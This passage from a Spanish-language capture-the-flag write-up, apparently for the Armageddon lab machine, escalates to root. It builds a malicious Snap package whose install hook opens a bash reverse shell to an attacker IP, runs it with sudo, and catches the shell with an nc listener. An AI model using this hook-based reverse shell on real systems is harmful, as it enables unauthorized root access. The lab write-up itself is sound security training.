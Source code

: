 En este caso, modificamos el comando que se ejecutará en el hook de instalación del paquete Snap para que establezca una reverse shell hacia nuestra máquina atacante en la IP `10.10.16.3` y el puerto `443`.

El procedimiento sigue siendo el mismo: creamos la estructura del paquete, insertamos el script en `meta/hooks/install`, le damos permisos de ejecución y generamos el paquete con `fpm`.

Transferiremos este nuevo archivo Snap malicioso al equipo víctima.

```bash
❯ COMMAND="/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'"
❯ cd $(mktemp -d)
❯ mkdir -p meta/hooks
❯ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
❯ chmod +x meta/hooks/install
❯ fpm -n xx -s dir -t snap -a all meta
Created package {:path=>"xx_1.0_all.snap"}
❯ scp xx_1.0_all.snap brucetherealadmin@10.10.10.233:/tmp/
brucetherealadmin@10.10.10.233's password: 
xx_1.0_all.snap                                                              100% 4096    40.6KB/s   00:00 
```

Desde una terminal nueva, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el Snap malicioso como `sudo`, si todo funciona bien deberíamos recibir una Reverse Shell.

```bash
[brucetherealadmin@armageddon tmp]$ sudo snap install xx_1.0_all.snap --dangerous --devmode
Run install hook of "xx" snap if present
```

Verificamos que finalmente hemos logrado obtener acceso como `root` y podemos comprobar la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.233] 39110
bash: cannot set terminal process group (2767): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3# whoami
whoami
root
bash-4.3# cat /root/root.txt
cat /root/root.txt
861ec4fc42c**********************
```
